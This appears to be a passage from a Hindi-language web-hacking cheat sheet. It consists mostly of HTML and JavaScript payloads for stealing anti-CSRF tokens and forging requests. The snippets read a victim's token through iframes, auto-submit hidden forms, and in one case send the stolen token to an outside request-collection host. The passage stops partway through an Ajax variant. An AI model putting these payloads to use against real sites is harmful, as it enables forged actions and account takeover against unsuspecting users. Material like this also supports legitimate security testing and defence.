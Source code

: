 ```html

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
}
</script>
```
### **टोकन चुराएं और इसे 2 iframes का उपयोग करके भेजें**
```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POSTAjax के साथ CSRF टोकन चुराएं और एक फॉर्म के साथ पोस्ट भेजें**
```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
```